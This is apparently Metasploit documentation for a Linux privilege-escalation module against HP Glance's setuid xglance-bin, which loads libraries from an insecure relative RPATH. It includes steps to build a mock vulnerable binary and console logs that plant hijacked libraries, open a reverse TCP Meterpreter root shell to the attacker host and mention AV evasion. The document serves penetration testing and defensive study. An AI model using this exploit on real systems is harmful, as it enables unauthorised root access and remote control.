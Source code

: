 ## Vulnerable Application


This exploit takes advantage of xglance-bin, part of
HP's Glance (or Performance Monitoring) version 11 'and subsequent',
which was compiled with an insecure RPATH option.  The RPATH includes
a relative path to -L/lib64/ which can be controlled by a user.
Creating libraries in this location will result in an
escalation of privileges to root.

### Mock Application

Unfortunately the application is a pay for application and the version is many years old by the time the
PoC was released.  Instead, we use a mock binary based on the permissions noted in the original CVE
announcement, and the `ldd` details from the PoC.

The following commands were performed on Fedora 31 to create the binary.
When the binary was pushed to rhel7.1 for testing, a 'of size' libXm.so.4 was required
so ```cp /lib64/libffi.so.6 ./-L/lib64/libXm.so.4``` was enough to make the binary
vulnerable.

    ```
    sudo su
    cd ~
    dnf install motif-devel
    
    cat > main.c << DONE
    #include <stdio.h>
    #include <Xm/Xm.h>
    
    void main(){
        printf("HP xglance-bin emulator %d\n",XmVERSION);
        char* x = XmCvtXmStringToCT(NULL);
        printf("%p",x);
    }
    
    DONE
    
    
    mkdir -p ./-L/lib64;
    cd ./-L/lib64;
    ```
The follow commands copies files to the path for building.
However, they may not be installed on a default rhel system.

    ```
    # libXm.so.3 may fail on newer systems like fedora 31
    cp /usr/lib64/libXm.so.3 .;
    cp /usr/lib64/libXm.so.4 libXm.so.3;
    cp /usr/lib64/libXp.so.6 .;
    cp /usr/lib64/libXt.so.6 .;
    cd ../..;
    ```
    gcc -lXm main.c -o xglance-bin -Wl,-rpath=-L/lib64:/usr/lib64:/usr/X11R6/lib64:/opt/perf/lib64;
    mkdir -p /opt/perf/bin/;
    cp xglance-bin /opt/perf/bin/;
    chown root:bin /opt/perf/bin/xglance-bin;
    chmod 4555 /opt/perf/bin/xglance-bin;
    ```

To confirm the file is vulnerable, run:
    ```
    [fedora@fedora31 ~]$ ldd /opt/perf/bin/xglance-bin | grep -- -L/lib64/
            libXt.so.6 => -L/lib64/libXt.so.6 (0x00007f727441b000)
            libXp.so.6 => -L/lib64/libXp.so.6 (0x00007f72742b2000)
    ```
We'll want to see one or more `libX*.so*` files with `-L/lib64/`.


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session
  4. Do: ```use exploit/linux/local/hp_xglance_priv_esc```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a root shell.
 
## Options

### COMPILE

If the .so exploit should be compiled on the system.  `gcc` is required.
More noisey, but more AV resilient. Default is `true`.

### GLANCE_PATH

Path to the `xglance-bin` executable.  Default is `/opt/perf/bin/xglance-bin`.

## Scenarios

### Mock binary on Fedora 31 with compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (xglance.rb)> set username fedora
    username => fedora
    resource (xglance.rb)> set password fedora
    password => fedora
    resource (xglance.rb)> run
    [+] 2.2.2.2:22 - Success: 'fedora:fedora' ''
    [*] Command shell session 1 opened (1.1.1.1:34379 -> 2.2.2.2:22) at 2020-04-19 14:39:45 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    resource (xglance.rb)> use exploit/linux/local/hp_xglance_priv_esc
    resource (xglance.rb)> set session -1
    session => -1
    resource (xglance.rb)> set verbose true
    verbose => true
    resource (xglance.rb)> rexploit
    [*] Reloading module...
    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 1.1.1.1:4444
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXt.so.6
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [+] gcc is installed
    [*] Live compiling exploit on system...
    [*] Max line length is 65537
    [*] Writing 106298 bytes in 7 chunks of 61359 bytes (octal-encoded), using printf
    [*] Next chunk is 61584 bytes
    [*] Next chunk is 60411 bytes
    [*] Next chunk is 61525 bytes
    [*] Next chunk is 61438 bytes
    [*] Next chunk is 61757 bytes
    [*] Next chunk is 30375 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 2.2.2.2
    [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:55298) at 2020-04-19 14:40:05 -0400
    
    meterpreter > getuid
    Server username: no-user @ fedora31 (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > shell
    Process 1699 created.
    Channel 1 created.
    whoami
    root
    ^Z
    Background channel 1? [y/N]  y
    meterpreter > sysinfo
    Computer     : 2.2.2.2
    OS           : Fedora 31 (Linux 5.3.7-301.fc31.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter > 
    ```

### Mock binary on rhel 7.1 no compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (xglance.rb)> set username redhat
    username => redhat
    resource (xglance.rb)> set password redhat
    password => redhat
    resource (xglance.rb)> run
    [+] 2.2.2.2:22 - Success: 'redhat:redhat' ''
    [*] Command shell session 1 opened (1.1.1.1:45901 -> 2.2.2.2:22) at 2020-04-19 14:59:53 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    msf5 exploit(linux/local/hp_xglance_priv_esc) > rexploit
    [*] Reloading module...

    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 1.1.1.1:4444 
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXm.so.4
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [*] Dropping pre-compiled exploit on system...
    [*] Writing '/tmp/-L/lib64/libXm.so.3' (368248 bytes) ...
    [*] Max line length is 65537
    [*] Writing 368248 bytes in 23 chunks of 46385 bytes (octal-encoded), using printf
    [*] Next chunk is 53790 bytes
    [*] Next chunk is 38675 bytes
    [*] Next chunk is 38759 bytes
    [*] Next chunk is 38694 bytes
    [*] Next chunk is 38757 bytes
    [*] Next chunk is 38658 bytes
    [*] Next chunk is 63466 bytes
    [*] Next chunk is 62734 bytes
    [*] Next chunk is 63857 bytes
    [*] Next chunk is 63812 bytes
    [*] Next chunk is 46324 bytes
    [*] Next chunk is 35989 bytes
    [*] Next chunk is 38405 bytes
    [*] Next chunk is 38978 bytes
    [*] Next chunk is 38950 bytes
    [*] Next chunk is 38935 bytes
    [*] Next chunk is 40042 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63521 bytes
    [*] Next chunk is 63618 bytes
    [*] Next chunk is 28951 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 2.2.2.2
    [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:33373) at 2020-04-19 15:09:55 -0400
    [+] Deleted /tmp/-L/lib64/libXm.so.3
    [+] Deleted /tmp/.u4aLoiq
    
    meterpreter > getuid
    Server username: no-user @ localhost.localdomain (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > sysinfo
    Computer     : localhost.localdomain
    OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-229.el7.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter >
    ```
